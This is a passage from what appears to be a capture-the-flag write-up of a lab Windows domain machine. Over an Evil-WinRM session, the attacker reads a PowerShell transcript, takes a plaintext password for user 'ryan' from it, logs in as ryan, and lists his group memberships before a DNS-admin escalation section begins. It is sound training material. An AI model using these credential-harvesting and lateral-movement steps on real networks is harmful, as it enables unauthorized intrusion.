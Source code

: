 Within this file, there is a PowerShell transcript, which contains credentials.&#x20;

{% code overflow="wrap" %}
```
*Evil-WinRM* PS C:\PSTranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt

<TRUNACTED>
PS>CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="InputObject"; value="The syntax of this command is:"
cmd : The syntax of this command is:
At line:1 char:1
+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```
{% endcode %}

With these credentials, we can login as `ryan`.&#x20;

<figure><img src="../../../.gitbook/assets/image (16) (8) (1).png" alt=""><figcaption></figcaption></figure>

### DNS Admin

As `ryan`, we are part of the Contractors and FnsAdmins group:

```
*Evil-WinRM* PS C:\Users\ryan\desktop> whoami /all

USER INFORMATION
----------------

User Name     SID
============= ==============================================
megabank\ryan S-1-5-21-1392959593-3013219662-3596683436-1105


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
```